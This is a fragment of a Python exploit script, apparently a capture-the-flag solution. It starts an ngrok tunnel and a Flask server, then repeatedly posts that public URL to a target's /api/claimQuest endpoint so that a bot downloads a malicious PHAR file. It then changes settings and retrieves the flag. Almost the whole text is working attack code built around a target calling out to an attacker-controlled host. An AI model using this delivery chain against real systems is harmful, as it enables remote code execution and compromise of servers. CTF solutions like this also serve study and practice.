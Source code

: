 ```python
        return True
    else:
        print('[!] Exploit not triggered or failed.')
        return False

def delivery_exploit():
    request_to_download()
    update_settings()
    time.sleep(2)
    get_flag()

def request_to_download():
    while True:
        print('[*] Sending quest URL to bot to trigger PHAR download...')
        data = {
            "questId":"q1",
            "questUrl":NGROK_PUBLIC_URL,
            "companions":0
        }
        response = requests.post(TARGET_URL + "/api/claimQuest", json=data)
        print(f'[+] Response: {response.status_code} - {response.text[:50]}')

        time.sleep(15)
        if PHAR_DOWNLOADED:
            print('[+] PHAR file was downloaded by the bot.')
            break

def wait_to_execute(func, delay, *args, **kwargs):
    def wrapper():
        time.sleep(delay)
        func(*args, **kwargs)

    thread = threading.Thread(target=wrapper)
    thread.start()
    return thread

if __name__ == '__main__':
    validate_args()
    
    already_exploited = get_flag()
    if already_exploited:
        print('[!] Looks like the server is already exploited.')
        exit()

    try:
        start_ngrok(PORT)
        
        wait_to_execute(delivery_exploit, 10)
        print('[*] Flask server running. Waiting for the bot...')
        app.run(host='0.0.0.0', port=PORT)
    except Exception:
        print('[*] Shutting down ngrok...')
        if NGROK_PROCESS:
            NGROK_PROCESS.terminate()
```
